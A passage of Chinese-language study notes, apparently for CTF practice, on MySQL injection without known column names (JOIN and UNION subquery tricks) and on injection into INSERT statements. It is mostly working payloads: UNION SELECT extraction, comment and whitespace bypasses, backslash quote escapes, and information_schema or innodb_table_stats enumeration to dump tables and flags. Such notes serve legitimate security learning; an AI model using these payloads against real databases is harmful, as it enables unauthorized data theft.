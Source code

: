 密码变成了`' where username =` `%23`注释掉了后面的`'`

### 无列名注入

#### 基于join的无列名注入的场景与方法

`select Host,User,Select_priv from user where User="root"`

在上述场景中用户可以控制的输入是字符串"root"，假设的攻击场景中我们可以突破双引号闭合并进行任意sql注入。但是我们无法获取到表的列名信息，只知道我们想要攻击的表的名字为"test"。

使用order by 猜解查询语句的查询的字段数
构造下述查询语句,通过修改其中的“1”部分为"1,2,3,...,n"，猜解"test"的列数。当列数猜解正确时，便成功提取了test表中的信息。
`select Host,User,Select_priv from user where User="root" and 0=1 union select * from (select 1 as a) as a join test as b limit 1;`

#### 基于union select的无列名注入（子查询）

对于下述语句，select只查询了一个字段，而我们的test表总共有两个字段。并且我们同样不知道test的列名。而join方法显然不能使union select左右两侧查询的列数相等。

`select 1,2,3,4,5 union select * from table;`猜列数
``select `2` from (select 1,2,3,4,5 union select * from table)a;``查询对应列
(`select c from (select 1,2 as b,3,4 as c,5 as d union select * from table)a;`如果过滤`\``)

我们需要通过修改其中的“1,2”部分为"1,2,3,...,n"，猜解"test"的列数，另外请注意反引号的使用

``0'/**/union/**/select/**/1,2,group_concat(`2`)/**/from/**/(select/**/2/**/union/**/(select/**/*/**/from/**/ctftraining.flag))a/**/;%00``

``1 union select *from  (select `2` from (select 1,2 union select* from test) as b) as c limit 1 offset 1;``

``password=%5C&username=,username=(select concat(`2`,0x2d,`3`) from (select 1,2,3 union select * from flaga)a limit 1,3)%23``

``password=%5C&username=,username=(select d from (select 1,2 as d,3 union select * from flag23a1)a)%23``

这些都是可以的

### insert注入

eg:

```php
  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```

```sql
#获取表名
username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()))%23&password=1

#获取列名
username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'))%23&password=1

#获取数据
username=1',(select group_concat(flagass23s3) from flag))%23&password=1


username=\&password=,(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))%23
username=\&password=,(select(flag)from(flagbb)))%23
```
